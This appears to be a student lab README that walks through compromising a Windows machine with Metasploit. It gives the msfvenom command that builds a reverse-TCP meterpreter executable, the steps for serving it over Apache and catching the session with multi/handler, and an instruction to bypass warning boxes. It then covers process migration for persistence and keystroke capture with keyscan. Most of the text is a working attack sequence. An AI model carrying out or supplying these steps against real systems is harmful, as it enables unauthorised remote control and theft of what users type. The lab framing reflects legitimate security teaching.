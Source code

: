 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

# PROGRAM:
Find the attackers ip address using ifconfig
# OUTPUT:
![image](https://github.com/MrSanthosh-dev/Compromising-windows-using-Metasploit/assets/117916573/d140f4f1-4c63-4c12-8956-2b3f92c0d3c8)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
# OUTPUT:
![image](https://github.com/MrSanthosh-dev/Compromising-windows-using-Metasploit/assets/117916573/7c0c977a-fba5-48a9-b928-8648df8b342e)

copy the fun.exe into the apache /var/www/html folder 240482762-37d7e507-5d47-4ddb-ba93-586f6d73a51b
![image](https://github.com/MrSanthosh-dev/Compromising-windows-using-Metasploit/assets/117916573/29a73b1b-acdc-4ac2-a8f6-25b7a4815450)

Start apache server sudo systemctl apache2 start
![image](https://github.com/MrSanthosh-dev/Compromising-windows-using-Metasploit/assets/117916573/a8ca0653-6288-4fc7-8d26-2a1dd8cd7935)

Check the status of apache2
![image](https://github.com/MrSanthosh-dev/Compromising-windows-using-Metasploit/assets/117916573/09cd8714-ed79-455e-9159-f1b49fe25f3f)

Invoke msfconsole:
# OUTPUT:
  Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

  Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
  ![image](https://github.com/MrSanthosh-dev/Compromising-windows-using-Metasploit/assets/117916573/d8f49046-22e2-47e7-a729-6b35e0dddddb)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/MrSanthosh-dev/Compromising-windows-using-Metasploit/assets/117916573/44e6b0a1-7f27-4e8b-8809-b535e79f6a7a)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/MrSanthosh-dev/Compromising-windows-using-Metasploit/assets/117916573/aee4bee9-6e58-4125-a4e2-f4cac9416fdf)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![image](https://github.com/MrSanthosh-dev/Compromising-windows-using-Metasploit/assets/117916573/ad54d541-00b9-40e9-9497-e4861e2f04af)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/MrSanthosh-dev/Compromising-windows-using-Metasploit/assets/117916573/d6b0e0d4-ef5c-4568-aafe-02c478155626)
keyscan_dump Shows the keystrokes captured so far 
![image](https://github.com/MrSanthosh-dev/Compromising-windows-using-Metasploit/assets/117916573/e033cebf-151c-4bb3-bf86-437a08e37918)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
